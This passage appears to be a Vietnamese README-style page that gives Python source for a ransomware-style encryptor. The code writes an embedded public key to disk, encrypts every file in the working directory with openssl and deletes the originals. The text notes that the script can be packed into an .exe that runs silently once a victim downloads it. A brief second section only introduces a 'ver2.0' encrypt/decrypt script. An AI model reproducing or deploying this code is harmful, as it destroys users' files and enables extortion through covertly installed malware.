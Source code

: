 > Đoạn mã Python dưới đây dược sử dụng để mã hóa dữ liệu được tôi chuyển đổi từ script **encrypt.sh** phía trên, nó có thể được đóng gói thành file *.exe và cài đặt thực thi ngầm khi bạn tải về!

```python
# test.py
import os
import subprocess

# Nội dung của tệp public.pem
public_pem = """
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAz/B9j/mui+Xv5hjXJneV
6Pt91fF6GJnZkPb5c7/StD36Gi3Uexa/AL17HIaCaLipg7McjldPVF9221Lm0Cpw
lBA3+kOxwbVMeBh+Uw5PQeyUFReMtLNQ8RGvWsH92RItA1LdsjA+S6z7rI799YA0
CPDSYSxRJtvA5AfkmseIZsbakYH/8e1OcNKGHiqqZswnM3QGdb+BZyqchc9PrswI
SOM2QGlX7J6l0MsKl4G/qY//akVeuI9JAxoMdYIPVn62vEBB7CDYOQhP10uH7EQd
UWqfb6nfpkMlBii20MxWckZhkybF9MlaLqzWClhxjseq30l1YM21kxEviT1WPpUN
awIDAQAB
-----END PUBLIC KEY-----
"""

# Tạo một tệp tạm thời chứa khóa công khai
with open("temp_public.pem", "w") as f:
    f.write(public_pem)

# Tìm tất cả các tệp trong thư mục hiện tại trừ temp_public.pem và test.py
files = [f for f in os.listdir('.') if os.path.isfile(f) and f not in [ "test.py", "temp_public.pem"]]

# Lặp qua từng tệp và mã hóa, sau đó xóa
for file in files:
    print(">>> Encrypting", file)
    subprocess.run(["openssl", "pkeyutl", "-encrypt", "-inkey", "temp_public.pem", "-pubin", "-in", file, "-out", file + ".enc"])
    print("Removing", file)
    os.remove(file)

# Xóa tệp tạm thời
os.remove("temp_public.pem")

```

-----------------------------
#### ⚙️ Script encrypt Python ver2.0

> Đoạn mã Python dưới đây dược sử dụng để **mã hóa và giải mã** dữ liệu

Để sử dụng mã này, bạn cần cài đặt thư viện **pycryptodome** bằng cách chạy lệnh sau trong môi trường Python của bạn:

```
pip install pycryptodome
```

